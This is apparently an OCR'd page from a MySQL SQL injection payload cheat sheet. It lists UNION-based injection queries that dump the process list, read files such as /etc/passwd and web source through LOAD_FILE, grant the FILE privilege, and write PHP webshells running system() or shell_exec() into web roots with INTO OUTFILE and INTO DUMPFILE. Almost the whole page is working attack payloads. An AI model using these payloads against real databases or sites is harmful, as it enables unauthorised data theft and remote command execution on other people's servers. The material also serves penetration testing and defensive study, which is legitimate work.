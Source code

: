 ```sql
SELECT * FROM INFORMATION_SCHEMA.PROCESSLIST;
```

| ID  | USER      | HOST 	         | DB 	   | COMMAND | TIME | STATE      | INFO | 
| --- | --------- | ---------------- | ------- | ------- | ----	| ---------- | ---- | 
| 1	  | root	  | localhost        | testdb  | Query	 | 10	| executing	 | SELECT * FROM some_table | 
| 2	  | app_uset  | 192.168.0.101    | appdb   | Sleep	 | 300	| sleeping	 | NULL |
| 3	  | gues_user | example.com:3360 | NULL	   | Connect | 0    | connecting | NULL |


```sql
UNION SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #
```

Dump in one shot query to extract the whole content of the table.

```sql
UNION SELECT 1,(SELECT(@)FROM(SELECT(@:=0X00),(SELECT(@)FROM(information_schema.processlist)WHERE(@)IN(@:=CONCAT(@,0x3C62723E,state,0x3a,info))))a),3,4 #
```


## MYSQL Read Content of a File

Need the `filepriv`, otherwise you will get the error : `ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`

```sql
UNION ALL SELECT LOAD_FILE('/etc/passwd') --
UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
```

If you are `root` on the database, you can re-enable the `LOAD_FILE` using the following query

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```

## MYSQL Command Execution

### WEBSHELL - OUTFILE Method

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### WEBSHELL - DUMPFILE Method

```sql
[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```
